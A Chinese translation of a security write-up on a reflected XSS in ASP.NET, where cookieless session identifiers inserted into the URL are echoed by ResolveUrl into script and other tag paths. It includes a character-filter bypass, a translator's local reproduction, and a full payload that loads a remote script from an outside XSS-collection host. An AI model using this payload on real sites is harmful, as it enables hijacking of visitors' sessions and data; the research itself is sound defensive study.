







*(本文首发于先知社区,链接:https://xz.aliyun.com/t/7453)
原文链接: All is XSS that comes to the .NET
原作者: Paweł Hałdrzyński
在portswigger发布的2019年十大web攻击技术中发现了这篇文章，仔细研究了一番，觉得挺有意思，故尝试翻译。
portswigger对这个技术的评论是:
Paweł Hałdrzyński takes a little-known legacy feature of the .NET framework and shows how it can be used to add arbitrary content to URL paths on arbitrary endpoints， causing us some mild panic when we realised even our own website supported it.
Reminiscent of Relative Path Overwrite attacks， this is a piece of arcana that can sometimes kick off an exploit chain. In the post it’s used for XSS， but we strongly suspect alternative abuses will emerge in future.
第一次翻译文章，如果建议或者有错误请在评论区指出，我会看到一定会回复或修正的。
(部分语句我按照我自己的理解进行重构，以防止翻译体降低阅读体验，如果有疑问，可以对照原文阅读)
正文
在很多框架中,往项目中简便地添加我们自己的资源(如.css和.js)是一个重要的特性.手动插入带有一堆../资源属实恶心.如果使用绝对路径，则会在更改文件或目录结构时仍需要再次花费时间修改资源的路径，而且将应用程序部署到子目录或者更改部署位置的时候，也会使绝对路径失效.幸运的是，对于开发人员，在部署ASP.NET时可以通过与应用程序根目录相对的URL来解决上述问题.更幸运的是，对于攻击人员，这将导致了一些新的方法攻击方法。
How does it work?
让我们看一下Control.ResolveUrl方法，该方法可以解析相对于应用程序根目录的路径。
1 | <%@ Page Language="C#" %> |
这段程序会在将~/Script.js这个路径转化为特定路径.如果开发者将Script.js部署在应用的根目录，并在A/B/C/default.aspx文件中用了上面这段代码，当我们访问http://localhost/A/B/C/default.aspx时，会看到
1 | <script src="/Script.js"></script> |
这功能看起来很方便，ASP.NET将~(波浪号)解析为应用程序的根目录，即Script.js的确切位置。就算我们把项目移动到其他位置部署，路径也会跟着更改，使得Script.js依旧可以被访问。
这个行为似乎很安全，不是吗?那如果我告诉你可以任意修改Script.js的URL地址呢?
回到以前
让我们回到那个连浏览器都还不支持Cookie头的灰暗年代，没有Cookie管理用户session似乎是一个问题.然而ASP.NET直接在把session保存在URL中来解决这个问题，正如 了解ASP.NETCookie功能如何工作 中所述：
在ASP.NET的早起版本(V1.0和V1.1)中， 只有Session State使用了Cookieless这个特性。
(…)
在V2.0版本，匿名身份认证和表单认证也使用了这个功能。
随着时间流逝，现在普遍将session存储在Cookie头中.但是，开发人员依旧得处理不支持Cookie的浏览器。ASP.NET 介绍了SessionStateSection.Cookieless property 如何定义和保存session(使用Cookie或在URL中)。
我们不需要深入了解Cookieless session是怎么运作的，我们只需要知道session ID是如何传递以及如何在URI中表示。
根据MSDN：
ASP.NET自动将唯一的session ID插入页面的URL中来维护Cookieless会话状态。例如，ASP.NET中通过以下URL保存唯一的session ID lit3py55t21z5v55vlm25s55：
http://www.example.com/(S(lit3py55t21z5v55vlm25s55))/orderform.aspx
URL还可以有一些其他的Cookieless身份标识符(cookieless identifiers):
- (A(?)) - Anonymous ID
- (S(?)) - Session ID
- (F(?)) - Form Authentication Ticket
对于现代浏览器，SessionStateSection.Cookieless属性的默认值AutoDetect等于将会话ID存储在Cookie头中（而不是将其保存在URL中）。但是，即使强制ASP.NET禁用Cookieless功能(在web.config中将cookieless参数设置为UseCookies也不会导致带cookieless identifiers报错。
这意义着两种方式访问http://localhost/(A(ABCD))/default.aspx结果是一样的。
而且，在访问http://localhost/default.aspx的时候，ResolveUrl会将这些标识符解析到URL中。
让我们快速浏览一下文档：
如果你的应用程序依赖于Cookieless session或者从需要Cookieless session的浏览器接收到请求，在路径中使用波浪号（〜）可能会创建一个新session并可能导致丢失session数据
现在，让我们回到最早的ResolveUrl代码段，它位于A/B/C/default.aspx，如图:

当我们打开*http://localhost/(A(ABCD))/A/B/C/default.aspx ， (A(ABCD))也被加到Script.js路径中了。
1 | <script src="/(A(ABCD))/Script.js"></script> |
把A(ABCD)放到不同的位置效果也一样，例如:访问http://localhost/A/B/C/(A(ABCD))/default.aspx
1 | <script src="/(A(ABCD))/Script.js"></script> |
正像我刚才说的那样，现在可以看到我们成功控制了Script.js的URI路径。
这个控制可以让我们开始XSS了!例如:
1 | http://localhost/A/B/C/(A(%22onerror=%22alert`1`%22))/default.aspx |
这只是一个简单的alert，(译者注:虽然大部分情况用alert就可以证明存在xss了，但并不一定能执行任意js代码).所以真正的乐趣开始了，因为地方并不是允许所有字符的。
Fuzz一下，从0x00-0xF7，找出处哪些字符无法使用。
从0x00到0x1F直接都会导致服务器返回400，这些是不可打印的ASCII字符，因此我们忽略它们.进一步测试，其他禁止使用的字符(返回400或404)是:
| % | 0x25 |
|---|---|
| & | 0x26 |
| ) | 0x29 |
| * | 0x2a |
| + | 0x2b |
| / | 0x2f |
| : | 0x3a |
| < | 0x3c |
| > | 0x3e |
| ? | 0x3f |
| \ | 0x5c |
黑名单中有三个字符对我们特别有用:
- 右括号–我们需要它来调用JavaScript中的函数
- 加号–我们经常用来连接字符串
- 斜线–我们不仅要运行一些JS，还需要将结果发送到某个地方，例如VPS；没有斜杠我们就无法进入VPS
现在，让我们思考一下如何绕过它们。
XSS!
在JavaScript的ES6中提供了一种新特性去调用模板字符串—-反引号.用反引号代替单引号或双引号
1 | var text = 'Hello' |
反引号有一个重要特性，它可以用来执行JavaScript表达式，${}的变量会被插入到字符串中.例如:
1 | var text = `Hello from ${document.domain}` |
这种方法可以用来代替+拼接字符串，例如:
1 | console.log(`${'a'}${'b'}${'c'}`) |
反引号还使我们摆脱的括号.我保证大伙肯定用过
1 | alert`1` |
让我们用这个技巧来创建一个script标签:
1 | js=document.createElement('script') |
创建script元素后，还需要设置src使其指向外部的XSS payload。
由于太多字符列入了黑名单，所以我们用创造了一种通用的方法动态加载我们的外部主机 XSS payload。
另外，ASP.NET的cookieless session ID有长度限制，得从其他地方加载JavaScript脚本来绕过。
在VPS上挂一个写了alert(document.domain)的脚本，假设路径为http://eval/xss.js
当script标签创建的时候，我们需要他的src指向外部的XSS payload。
1 | js.src='//eval/xss.js' |
斜杠被禁用了，可以通过String.fromCharCode绕过.用String.fromCharCode`47` 绕过\，并且将其拼接起来。
1 | js.src=`${String.fromCharCode`47`}${String.fromCharCode`47`}eval${String.fromCharCode`47`}XSS.JS` |
现在我们还需要一个地方放script标签，比如head就不错。
1 | headEl=document.getElementsByTagName`head`[0]; |
然后我们需要调用headEl.appendChild(js) ，然而，事实却出乎意料:
让我们回到alert`1` 的例子.尽管它可以像字符串一样工作，但是当我们传入js表达式的时候，他会产生非常意外的结果。
1 | alert`${1}` |
弹出了一个逗号，而不是预期中的1，事实证明，alert(`${1}`) 与alert`${1}` 不一样。
后一种语法叫带标签的模板字符串.function`params` 不会将params传入到函数的参数中，它仅仅使用函数修改模板字符串的参数。
(译者注，很难用语言解释这个概念，可以看下官方文档https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings#%E5%B8%A6%E6%A0%87%E7%AD%BE%E7%9A%84%E6%A8%A1%E6%9D%BF%E5%AD%97%E7%AC%A6%E4%B8%B2)
1 | function whatsGoingOn() |
结果中，数组的第一个参数是围绕js表达式的字符串，确认一下:
1 | whatsGoingOn`LEFT${5-1}RIGHT` |
这对我们来说是个好消息，JavaScript提供了一个执行代码的方法.如下所示:
1 | new Function(["whatever"，"whatever"]，"alert(1)")() |
现在我们要做的只是调用与headEl.appendChild(js)等效的方法.但是我们仍然不能使用括号。
我们为什么要关心呢?让我们把headEl.appendChild(js)放在URI的hash中，比如http://localhost/A/B/C/default.aspx#headEl.appendChild(js)，然后调用new Function上的document.location.hash。
还需要摆脱#号，可以这样document.location.hash.substr`1` ，最终payload!!!
1 | js = document.createElement`script`; |
已在所有主流浏览器(Firefox，Chrome，Edge)上测试这个漏洞。
| ASP.NET version | <%=Environment.Version%> == 4.0.30319.42000 |
|---|---|
| Firefox | 69.0.1 (64-bit) (the newest version) |
| Microsoft Edge | 44.17763.1.0 (the newest version) |
| Chrome | 77.0.3865.90 (Official Build) (64-bit) [XSS Auditor needs to be disabled] |
(译者注，似乎是个通杀全版本ASP.NET version的洞，复现在文章最后)
其他方式
scirpt标签并非唯一会使用ResolveUrl的HTML标签，link，a，img等其他标签同样会使用.下面的代码包含了能导致XSS的HTML标签(对于a href，请使用onmouseover或onclick代替onerror，否则无法使用)。
1 | <script src="<%= ResolveUrl("~/file.js") %>"></script> |
幸运的是，ResolveUrl并非唯一的能将~解析为webapp根目录的方法.让我们快速浏览一下其他ASP.NET功能在处理URL中的cookieless session ID时的行为。
1 | <!-- run src attribute on the server side as an HTML Control --> |
然后访问最简易的payload:
1 | http://localhost/A/B/C/(A(%22onerror=%22alert`1`%22))/default.aspx |
得到以下结果:
1 | <!-- run src attribute on the server side as an HTML Control --> |
web control 和HTML control在解析~时，省略了URL的cookieless部分.不幸的是，我们无法在这些地方进行XSS攻击。
摘要
我们学习了关于远古ASP.NET的功能(cookieless session)的一些知识，为了向后兼容，该功能在现代Web应用程序中仍然存在.此外，我们发现了利用XSS漏的方法，了解了一些JS小技巧，用来在绕过部分字符被过滤的情况
复现
翻译完了，应该并不难懂。
但是为了帮助理解，也帮助像我这样从来没接触过.NET开发的菜鸡复现.我再手把手复现展示一下。
搭建环境
系统，windows 10 最新版本
官网下载vs2019 community，安装的时候记得勾选C#和.NET相关的组件。
安装完新建项目，记得选ASP.NET web应用程序(.NET Framework)，不要选ASP.NET Core WEB应用程序，ASP.NET Core已经弃用了aspx，似乎也弃用了ResolveUrl方法。

下一步，然后可以选择.NET Framework的版本.原文演示的是4.0，但是实际上最新的4.8上同样可用.我们来整个最新的。

再下一步，选空项目就可以。
创建完了，添加一个Web窗体。

把文章开始的代码复制进去
1 | <%@ Page Language="C#" %> |
然后运行.尝试访问，端口是随机的。
先来看看是不是像他说得这样，访问https://localhost:44345/(A(ABCD))/xss.aspx

确实可以，然后是最简单的弹窗.访问https://localhost:44345/(A(%22onerror=%22alert%601%60%22))/xss.aspx

最后是完成的payload
1 | https://localhost:44345/(A(%22onerror=%22js=document.createElement%60script%60;js.src=%60$%7BString.fromCharCode%6047%60%7D$%7BString.fromCharCode%6047%60%7Dxsshs.cn$%7BString.fromCharCode%6047%60%7DQbLA%60;headEl=document.getElementsByTagName%60head%60[0];new%20Function%60X$%7Bdocument.location.hash.substr%601%60%7DX%60%22))/xss.aspx#headEl.appendChild(js) |

OK，大功告成。
备注:之前看到linux下也可以通过mono运行aspx程序，测试了下，并没有这个漏洞。